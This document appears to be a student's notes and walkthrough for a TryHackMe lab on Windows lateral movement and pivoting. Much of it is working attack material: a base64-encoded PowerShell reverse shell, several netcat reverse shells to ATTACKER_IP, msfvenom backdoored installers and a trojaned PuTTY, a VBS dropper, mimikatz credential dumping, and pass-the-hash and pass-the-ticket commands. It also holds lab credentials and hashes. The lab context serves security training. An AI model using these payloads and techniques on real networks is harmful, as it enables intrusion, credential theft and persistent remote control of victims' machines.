

Lateral Movement and Pivoting Network
Task 1 Intro and setup
I will be using a kali-linux wsl setup as win-kex works better than VMs for me. I just used nmcli to change the dns to the domain controller and used the specific openvpn config file as described in the task. Then visited http://distributor.za.tryhackme.com/creds to get my user level credentials. If only it was this easy in the real world
Task 2 Moving through the network
- Lateral movement: A group of techniques used by attackers to move around a network.
- Movement is essential for attackers to: achieve goals, bypass network restrictions, establish persistence, avoid detection and instill confusion
- Local administrators: Restricted by UAC ( Except default Administrator ) and can't remotely connect to machines except using RDP
- Domain accounts ( With local Admin ) : Have full administrative privileges
Task 3 Spawning processes remotely
- Focus: Methods an attacker has to remotely spawn processes when they have valid credentials
- Psexec Port 445 SMB
- Requires: Adminstrator
- Sysinternal tool
- Internal working
- Connects to Admin$ share and uploads service binary psexesvc.exe
- Connects to service control manager and created PSEXESVC service with C:Windowspsecesvc.exe binary
- Creates named pipes to handle stdin/stdout/stderr
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
- WinRM Port 5985 HTTP or Port 5986 HTTPS
- Required group: Remote Management Users
- Web based protocol to send powershell commands, most windows servers have it enabled
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
- Remote Service Creation (sc) Ports: 135/49152-65535 (DCE/RPC), 139/445 (RPC over SMB named pipes)
- Required group: Administrators
- Will execute and fail (normally) as requires windows service executables
- sc.exe tries to connect to Service Control Manager SVCCTL through rpc
- Method 1: ask EPM (Endpoint Mapper) at port 135 for the port/ip of the SVCCTL (49152-65535)
- Method 2: Try to reach SVCCTL through smb named pipes pipesvcctl
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto sc.exe \\TARGET start THMservice sc.exe \\TARGET stop THMservice sc.exe \\TARGET delete THMservice ```
- Remote Schedule Tasks
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 schtasks /s TARGET /run /TN "THMtask1" schtasks /S TARGET /TN "THMtask1" /DELETE /F
- Practical
- We will be connecting to THMJMP2 using the creds we got via ssh
- ** User:** ZA.TRYHACKME.COM\t1_leonard.summers** Password:** EZpass4ever
- It says we can use any method we want to get to THMIIS, I will be using psexec
- First, I established a reverse shell on THMJMP2 as leonard summers
```powershell runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe LOCAL_IP_ADDR 4444" ```
- Then, I used psexec to execute a powershell one-liner
psexec64 \\10.200.48.201 powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4ANQAwAC4ANAA2AC4AMgAwADcAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA- I wasn't planning on using a base64 encoded one (generated at revshells.com) but psexec got fussy with the quotes in the regular payload
- Running the Flag.exe binary didn't work for me but a quick reverse engineer gave me the flag THM{MOVING_WITH_SERVICES
Task 4 Moving laterally using WMI
- Windows Management Instrumentation
- Connecting to WMI From Powershell
- First we need a PSCredential object
$username = 'Administrator'; $password = 'Mypass123'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; ```- Then we need to create a session
$Opt = New-CimSessionOption -Protocol DCOM $Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop ```
- Remote Process Creation Ports 135/49152-65535 (DCERPC), 5985/5986 (WinRM)
collapsed:: true
- Required group: Administrator
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere"; Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{ CommandLine = $Command } ```- Not output provided
- Can also use cmd
wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" ```
- Service Creation ** Ports 135/49152-65535 (DCERPC), 5985/5986 (WinRM)
collapsed:: true
- Required group: Administrator
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{ Name = "THMService2"; DisplayName = "THMService2"; PathName = "net user munra2 Pass123 /add"; # Your payload ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process StartMode = "Manual" } $Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'" Invoke-CimMethod -InputObject $Service -MethodName StartService Invoke-CimMethod -InputObject $Service -MethodName StopService Invoke-CimMethod -InputObject $Service -MethodName Delete ```
- Scheduled Tasks Same ports as before
collapsed:: true
- Group: Adminstrator
$Command = "cmd.exe" $Args = "/c net user munra22 aSdf1234 /add" $Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2" Start-ScheduledTask -CimSession $Session -TaskName "THMtask2" Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
- MSI Installation
- Group: Administrator
- MSI File must already be on target system
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false} ```- Can also use wmic in legacy systems
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi ```
- Practical
- Connect to THM-IIS using MSI installation
- First we need to create and upload a payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994 ```- Admin share is C:Windows
- We need to create a listener for the payload
nc -nvlp 4445 ```
- Then we create a wmi session
- Same steps as connection to wmi session
- Then we install the msi
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\secretinstall.msi"; Options = ""; AllUsers = $false} ```
- And we get a shell!
- THM{MOVING_WITH_WMI_4_FUN
Task 5 Alternate Authentication Material
- Any piece of data that we can use to access a windows account without the passwod
- NTLM and Kerberos protocols

- Pass the Hash
- If we extract credentials (maybe with mimikatz) we can use non-cracked ntlm hashes
- Getting them:
mimikatz # privilege::debug mimikatz # token::elevate mimikatz # lsadump::sam mimikatz # privilege::debug mimikatz # token::elevate mimikatz # sekurlsa::msv ```
- Using them
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH mimikatz # token::revert mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555" ```
- Kerberos
collapsed:: true
- 


- Getting tickets
mimikatz # privilege::debug mimikatz # sekurlsa::tickets /export ```
- Using them
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi ```
- Overpass-the-hash/pass-the-key
-
Like passthehash but for kerberos
-
Get encryption keys
mimikatz # privilege::debug mimikatz # sekurlsa::ekeys ```
-
If we have the RC4 hash mimikatz #sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:toolsnc64.exe -e cmd.exe ATTACKER_IP 5556"
-
If we have the AES128 hash:
mimikatz sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:toolsnc64.exe -e cmd.exe ATTACKER_IP 5556" -
If we have the AES256 hash:
mimikatz sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:toolsnc64.exe -e cmd.exe ATTACKER_IP 5556"
-
- Practical
collapsed:: true
- SSH with new credentials provided
- Get ntlm ham by using mimikatz
mimikatz # privilege::debug mimikatz # token::elevate mimikatz # sekurlsa::msv ```- 533f1bd576caa912bdb9da284bbc60fe was found for t1_toby.beck
- Exploit this
evil-winrm -i 10.200.48.201 -u t1_toby.beck -H 533f1bd576caa912bdb9da284bbc60fe ```
- Flag on desktop:
- THM{NO_PASSWORD_NEEDED
Task 6 Abusing User Behaviour
- Abusing Writable Shares
- Common thing to find in corporate environments
- If there are executables that administrators deploy on those shares we can hijack those
- Backdoor
- Exe
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe ```
- VBS
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True ```
- Exe
- RDP Hijacking
- If an rdp client closes instead of logging off, session remains indefinitely
- Can access with system privileges
query user # Retruns sessions tscon 3 /dest:rdp-tcp#6 ```
- Practical
- RDP in with our new credentials (different link than before)
- Switch to system
PsExec64.exe -s cmd.exe ```
- Find and connect to rdp
query user tscon <any of the ids for the target user> /dest:rdp-tcp#<Your session> ```
Task 7 Port Forwarding
- SSH Tunnelling
- Allows us to forward ports or traffic through another machine we have ssh access to
ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N This will establish an SSH session from PC-1 to 1.1.1.1 (Attacker PC) using the tunneluser user. ```To forward port 80 from the attacker's machine and make it available from PC-1, we can run the following command on PC-1: C:\> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N ```
- SOCAT
- Doesn't require ssh, but requires us to transfer the socat binary
Coming back to our example, if we wanted to access port 3389 on the server using PC-1 as a pivot as we did with SSH remote port forwarding, we could use the following command: C:\>socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389 ```If, on the other hand, we'd like to expose port 80 from the attacker's machine so that it is reachable by the server, we only need to adjust the command a bit: C:\>socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80 ```
- Dynamic Port Forwarding
- For if we need multiple ports, ex nmap
- Create socks proxy with ssh and connect with proxychains
ssh tunneluser@1.1.1.1 -R 9050 -N proxychains nmap -T4 -p- Target ```
- Practical
- Part 1, RDP to THMIIS
- Port is blocked from our machine but allowed from thmjmp2
socat TCP4-LISTEN:13389,fork TCP4:THMIIS.za.tryhackme.com:3389 ```- Then we can connect to rdp at thmjmp2.za.tryhackme.com:13389 with the provided creds
- THM{SIGHT_BEYOND_SIGHT}
- Part 2, Chaining complex exploits
- We will be trying to exploit the domain controller running rejetto hfs
- DC can only talk to jmp2
- Forward ssh ports
C:\Users\t2_kelly.blake>ssh tunnel@10.50.46.207 -R 8888:thmdc.za.tryhackme.com:80 -L *:6565:127.0.0.1:6565 -L *:6868:127.0.0.1:6868 -N ```- -R 8888:thmdc.za.tryhackme.com:80 Forwards the vulnerable port to port 8888 on our local machine
- -L *:6565:127.0.0.1:6565 forwards connection to JMP2 to our machine at port 6565
- -L *:6767:127.0.0.1:6767 same as above for port 6767
- Now we can exploit
- Launch metasploit
- use hfs rejetto exec
- set lhost to jmp2
- set bindaddress to localhost
- configure ports
- set rhost to localhost (wherever we forwarded the port 80 of the dc)
- And run!
- THM{FORWARDING_IT_ALL}
- Part 1, RDP to THMIIS